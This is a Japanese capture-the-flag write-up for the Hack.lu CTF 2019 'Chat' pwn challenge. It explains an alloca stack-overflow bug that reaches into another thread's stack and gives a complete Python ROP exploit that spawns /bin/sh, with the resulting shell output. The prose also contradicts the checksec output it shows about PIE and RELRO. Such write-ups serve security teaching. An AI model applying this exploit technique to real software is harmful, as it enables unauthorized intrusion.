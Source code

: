 # [pwn 381pts] Chat - Hack.lu CTF 2019
64ビットでPIEやRELROは無効です。
```
$ checksec -f chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   79 Symbols     Yes      0               2       chall
```
なんかチャンネル（スレッド）を作ったりechoできたりといろんなコマンドが実装されています。競技中に気づいたのはallocaに負の値が渡せるという点ですが、その後fgetsで読むサイズも負数になってエラーでスレッドからさよならしちゃうので直接ROPなどはできませんでした。
公式writeupがあるのでそれを読みましょう。

スレッドが作成される際のスタックサイズはoptionで決まっているのでallocaで十分大きなサイズを指定すると別スレッドのスタックに突入します。したがって、リターンアドレスを書き換えられるのでROP chainを書き込んでjoinすればシェルが取れます。

```python
from ptrlib import *

def nc():
    sock.sendlineafter("> ", "/nc")
    sock.recvuntil("Channel ")
    return int(sock.recvline()[:-1])

def echo(size, data):
    sock.sendlineafter("> ", "/e")
    sock.sendline(str(size))
    sock.sendline(data)
    return

def pc():
    sock.sendlineafter("> ", "/pc")
    return

def qc():
    sock.sendlineafter("> ", "/qc")
    return

def jc(cid):
    sock.sendlineafter("> ", "/jc {}".format(cid))

elf = ELF("./chat")
sock = Socket("localhost", 9999)
#sock = Socket("chat.forfuture.fluxfingers.net", 1337)
rop_pop_eax = 0x08051cf6
rop_pop_ebx = 0x0804901e
rop_int80 = 0x0807d3d0

# channel 1
nc()
pc()
# channel 2
nc()
pc()

# ROP
envp = 0x8048000 + next(elf.find("\0"*4))
payload = b''
payload += flat([
    p32(0xdeadbeef),
    p32(elf.symbol("command") + 0x14),
    p32(elf.symbol("command") + 0x10),
    p32(rop_pop_ebx),
    p32(elf.symbol("command") + 0x8),
    p32(rop_pop_eax),
    p32(11),
    p32(rop_int80)
])
assert b'\n' not in payload
assert b'\r' not in payload

jc(1)
# 0x3d090 - 0xa30
echo(250000, payload)
qc()

payload  = b"/jc 2\0\0\0"
payload += b"/bin/sh\0"
payload += p32(elf.symbol("command") + 8)
payload += p32(0)
sock.sendlineafter("> ", payload)

sock.interactive()
```

ほー。
```
$ python solve.py 
[+] __init__: Successfully connected to localhost:9999
Joining Chat Channel.
[ptrlib]$ /bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
$
```

# 感想
allocaは負数を与えるものというイメージにとらわれていました。

# 参考文献
[1] [https://ctftime.org/writeup/17027](https://ctftime.org/writeup/17027)